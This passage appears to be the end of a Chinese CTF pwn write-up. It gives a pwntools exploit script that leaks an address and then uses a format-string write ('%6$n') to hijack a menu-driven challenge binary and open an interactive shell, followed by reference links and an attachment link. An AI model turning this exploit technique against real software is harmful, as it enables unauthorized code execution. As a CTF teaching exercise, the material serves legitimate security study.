 ```
p.sendline("1000")
print p.readline()
p.sendline(payload)
print p.recvuntil("&gt;&gt;&gt; ")
p.sendline("4")
print p.recvuntil("xxxxx.")
description = p.recvuntil("&gt;&gt;&gt; ")
payloadAddress = description[0:7]
print "----------3 fmtstr : exploit----------"
p.sendline("1")
print p.recvuntil("Name: ")
p.sendline("cccccc")
print p.recvuntil("No: ")
p.sendline("333333")
print p.recvuntil("description: ")
p.sendline("1000")
print p.readline()
tmp = int(payloadAddress, 16) - 4 + 11 
p.sendline("%" + str(tmp) + "x%6$n")
print p.recvuntil("&gt;&gt;&gt; ")
p.sendline("4")
print p.recvuntil("&gt;&gt;&gt; ")
p.sendline("5")
p.interactive()
```

<br>

**参考文章**

[](http://www.cnblogs.com/Ox9A82/)

[http://www.cnblogs.com/Ox9A82/](http://www.cnblogs.com/Ox9A82/)

[http://www.tuicool.com/articles/iq6Jfe](http://www.tuicool.com/articles/iq6Jfe)

[http://matshao.com/2016/07/13/%E4%B8%89%E4%B8%AA%E7%99%BD%E5%B8%BD-%E6%9D%A5-PWN-%E6%88%91%E4%B8%80%E4%B8%8B%E5%A5%BD%E5%90%97%E7%AC%AC%E4%BA%8C%E6%9C%9F/](http://matshao.com/2016/07/13/%E4%B8%89%E4%B8%AA%E7%99%BD%E5%B8%BD-%E6%9D%A5-PWN-%E6%88%91%E4%B8%80%E4%B8%8B%E5%A5%BD%E5%90%97%E7%AC%AC%E4%BA%8C%E6%9C%9F/)

<br>

**附件**

[](https://pan.baidu.com/s/1pLM2Pfl)

[https://pan.baidu.com/s/1pLM2Pfl](https://pan.baidu.com/s/1pLM2Pfl)
